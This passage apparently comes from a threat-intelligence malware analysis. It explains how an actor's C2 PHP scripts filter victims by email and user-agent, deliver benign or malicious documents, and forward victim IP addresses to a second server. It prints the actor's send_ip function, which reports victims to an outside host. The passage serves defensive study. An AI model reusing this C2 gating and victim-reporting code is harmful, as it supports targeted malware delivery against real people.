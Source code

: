 



If the incoming request contains an expected email address, it saves the date, IP address and user-agent to the [who]_downhistory.txt file.
If the user-agent contains Windows, which means the victim is a Windows machine, it goes to the next step. Otherwise, it delivers a benign document to the victim.
Next, the script checks whether the connection from the victim is the first request or not by checking the existence of the [who].txt file.
If the [who].txt file does not exist, it means it’s the first request from the victim, so the script forwards the IP address to the other server (VBS server), delivering the malicious document, saving the victim’s information to the [who].txt including date, IP address and user-agent.

Note that the script sends the victim’s IP address to the other server (named “VBS server” by the author). If the victim connects with an appropriate email address and if it’s an initial connection, the C2 script forwards the IP address to the specific servers with /index.php?ip= GET request. Sending the appropriate victim IP addresses to the remote server is a very important process for the operational security of this actor. We’ll look in more detail at how the operator uses this information in the next section.





function send_ip($host , $data)
{
	$fp = @fsockopen("tcp://".$host, 80, $errno, $errstr, 30);
	if (!$fp) {
	} else {
    	$out = "GET /index.php?ip=".$data." HTTP/1.1\r\n";
    	$out .= "Host: ".$host."\r\n";
    	$out .= "Connection: Close\r\n\r\n";
    	fwrite($fp, $out);
    	fclose($fp);
	}
}




123456789101112

function send_ip($host , $data){ $fp = @fsockopen("tcp://".$host, 80, $errno, $errstr, 30); if (!$fp) { } else {    	$out = "GET /index.php?ip=".$data." HTTP/1.1\r\n";    	$out .= "Host: ".$host."\r\n";    	$out .= "Connection: Close\r\n\r\n";    	fwrite($fp, $out);    	fclose($fp); }}




Looking at the corresponding script (index.php) of the above IP-delivering GET request, here’s how it works. Once this script receives an IP address in the ip parameter of the HTTP request, it extracts the victim’s IP address from ip parameter and saves it to the allow.txt file. Otherwise, it saves the client information to the error.txt file and redirects the client to mail.google.com in this case. Additionally, the author used various legitimate websites for redirection, such as naver.com, kisa.or.kr, or other popular email services. The allow.txt file, which contains the appropriate victim’s IP address, is referred by another C2 script to verify whether the incoming request is valid and thus whether or not to deliver the next stage payload.


